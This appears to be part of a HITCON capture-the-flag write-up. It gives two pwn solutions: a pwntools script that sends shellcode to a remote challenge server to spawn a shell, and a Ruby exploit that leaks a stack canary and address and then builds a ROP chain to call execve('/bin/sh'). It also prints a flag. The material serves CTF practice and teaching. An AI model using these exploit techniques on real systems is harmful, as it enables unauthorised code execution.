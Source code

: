 ### Easy to say

```python
from pwn import *
import time

context.arch = 'amd64'
r = remote('52.69.40.204', 8361)

time.sleep(1)

shellcode = asm('''
mov cx, 0x1000
sub rsp, rcx
pop rcx
pop rbx
pop rsi
mov dl, 0x60
syscall
''')

r.send(shellcode)

raw_input('>')
r.send(cyclic(0x42)+asm(shellcraft.sh()))

r.interactive()
```

`hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}`

## pwn

### Start
* Buffer Overflow, can leak information from stack and overwrite return address. 
* The binary is statically linked, so it is easy to create a ROP chain to get a shell.
* Canary and NX enabled, and Partial RELRO.

Solution
1. Leak canary
2. Leak current stack address so the address of  "/bin/sh\x00" can be known
3. Build a ROP chain to perform execve()

The server only accept Ruby script, and it will take our script to run the binary.

```Ruby
r = Sock.new '127.0.0.1', 31338

r.sendline 'A'*24
r.recvline
canary = u64("\x00" + r.recvline[0...-4])
print "canary: " + canary.to_s(16) + "\n"
sleep(1)

r.sendline 'A'*63
r.recvline
stack = u64(r.recvline[0...-1] + "\x00\x00") - 344
print "stack: " + stack.to_s(16) + "\n"
sleep(1)

payload = 'A'*24+p64(canary)+p64(0)+p64(0x47a6e6)+p64(59)+p64(0)+p64(0)+p64(0x4017f7)+p64(0)+p64(0x4005d5)+p64(stack+8)+p64(0x468e75)
r.sendline payload
r.recv(2000)
sleep(1)
```